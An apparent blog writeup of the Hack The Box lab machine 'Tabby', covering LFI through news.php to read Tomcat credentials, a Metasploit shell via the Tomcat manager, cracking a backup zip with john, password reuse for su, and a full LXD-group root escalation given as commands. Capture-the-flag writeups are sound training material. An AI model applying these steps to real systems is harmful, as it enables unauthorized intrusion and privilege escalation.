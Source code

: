 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Tabby
- Description: Tabby is a easy difficulty Linux machine. Enumeration of the website reveals a second website that is hosted on the same server under a different vhost. This website is vulnerable to Local File Inclusion. Knowledge of the OS version is used to identify the `tomcat-users.xml` file location. This file yields credentials for a Tomcat user that is authorized to use the `/manager/text` interface. This is leveraged to deploy of a war file and upload a webshell, which in turn is used to get a reverse shell. Enumeration of the filesystem reveals a password protected zip file, which can be downloaded and cracked locally. The cracked password can be used to login to the remote machine as a low privileged user. However this user is a member of the LXD group, which allows privilege escalation by creating a privileged container, into which the host&amp;amp;#039;s filesystem is mounted. Eventually, access to the remote machine is gained as `root` using SSH.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I start by checking out the 80 and 8080 ports since ssh is practically useless with creds or keys. 

I check port 80 first and see that its some megahosting website. It even has a vhost megahosting.htb domain that I needed to add to my /etc/hosts

From there I see there is a news.php file that has the file parameter that has an LFI.

I stop there and check out port 8080 and see its a tomcat instance. I need to login to access the administrator panel. I'll try to read the config file from the LFI:


![](assets/images/2024-02-03-HTB-Tabby-Writeup-image-1.png)

After some trial and error and alot of research I landed on this file:

**`/usr/share/tomcat9/etc/tomcat-users.xml`**

![](assets/images/2024-02-03-HTB-Tabby-Writeup-image-2.png)

Now I am able to login to the manager console, I'll use metasploit to get a shell now

```bash
meterpreter > shell
Process 1 created.
Channel 1 created.
whoami
tomcat
```

## Privilege Escalation

I find a zip file back up in the var/www/html/files directory. There I download it and realize its password protected. I then pass it to john and crack it:

```bash
meterpreter > ls
Listing: /tmp
=============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  8716  fil   2024-02-03 18:49:45 -0500  16162020_backup.zip
040776/rwxrwxrw-  4096  dir   2024-02-03 18:48:37 -0500  hsperfdata_tomcat
040776/rwxrwxrw-  4096  dir   2024-02-03 18:49:57 -0500  var
```

```bash
HTB john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)     
1g 0:00:00:00 DONE (2024-02-03 18:50) 1.408g/s 14607Kp/s 14607Kc/s 14607KC/s adornadis..adamsapple:)1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

While the zip didn't have anything, I was able to su into ash with the password:

```bash
tomcat@tabby:/tmp$ su ash
su ash
Password: admin@it
```

I see that I have the lxd group

```bash
ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

On my host:

```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

On Victim host

```bash
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

```bash
ash@tabby:~$ /snap/bin/lxc exec mycontainer /bin/sh
/snap/bin/lxc exec mycontainer /bin/sh
~ # ^[[53;5Rwhoami                                                             
whoami                                                                         
root 
```

best,
gerbsec